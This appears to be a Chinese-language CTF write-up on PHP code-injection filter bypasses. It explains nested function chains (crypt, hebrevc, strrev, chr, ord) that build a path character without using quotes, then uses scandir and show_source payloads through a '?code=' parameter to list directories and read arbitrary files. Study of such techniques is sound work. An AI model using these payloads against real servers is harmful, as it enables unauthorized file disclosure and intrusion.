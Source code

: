`?code=show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));`

phpversion() 获取当前 PHP 的版本号。
crypt(phpversion()) 对 PHP 版本号进行哈希加密。
hebrevc(crypt(phpversion())) 将加密后的字符串进行反转。
ord(hebrevc(crypt(phpversion()))) 获取反转后的字符串的第一个字符的 ASCII 值。
chr(ord(hebrevc(crypt(phpversion())))) 将 ASCII 值转换回字符。
scandir(chr(ord(hebrevc(crypt(phpversion()))))) 试图读取由 ASCII 值表示的目录下的所有文件和目录。
next(scandir(chr(ord(hebrevc(crypt(phpversion())))))) 获取当前工作目录下的下一个文件或目录。
chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))) 将当前工作目录更改为下一个文件或目录。
crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))) 对新的工作目录进行哈希加密。
hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))) 将加密后的字符串进行反转。
ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))) 获取反转后的字符串的第一个字符的 ASCII 值。
chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))) 将 ASCII 值转换回字符。
scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))) 读取由 ASCII 值表示的目录下的所有文件和目录。
array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))))) 将文件和目录的数组反转，使得文件和目录名成为数组的键。
array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))) 从键（即文件和目录名）中随机选择一个。
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))))))) 显示所选文件的源代码。

##### exp：使用 array() 读取根目录

`?code=print_r(serialize(array()));`
👇
a:0:{}

`?code=print_r(crypt(serialize(array())));`
随机加密，有几率结尾会有"/"👇
$1$kQp4VPZo$.cwWophFa8mHwHf4etyWP/

将结果反转
`?code=print_r(strrev(crypt(serialize(array()))));`
👇
/n9RZqndDIdPVfDBo62HOT$EiorHvqj$1$

取第一位（利用 ord() 只能取第一位的特性）
`?code=print_r(chr(ord(strrev(crypt(serialize(array()))))));`
👇
/

列出根目录下的文件
`?code=print_r(scandir(dirname(chdir(chr(ord(strrev(crypt(serialize(array())))))))));`

随机读取某个文件
`?code=show_source(array_rand(array_flip(scandir(dirname(chdir(chr(ord(strrev(crypt(serialize(array())))))))))));`

## 无字母数字绕过
